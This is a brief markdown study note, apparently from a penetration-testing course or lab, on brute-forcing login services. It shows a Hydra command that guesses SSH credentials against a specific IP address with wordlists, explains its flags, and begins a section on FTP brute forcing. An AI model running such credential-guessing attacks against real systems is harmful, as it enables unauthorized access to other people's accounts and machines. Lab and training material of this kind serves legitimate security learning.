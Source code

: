 #BruteForcing #ServiceAutrhentication #LoginFormAttack 

### SSH Attack
To use hydra to attack a login service looks like:
``` bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

# Provided username and password wordlists
# Add service://SERVER_IP:PORT 
# -t 4 -> max number of parallel attempts
```
### FTP Brute Forcing
After we are logged into SSH, we can check other users on the system. 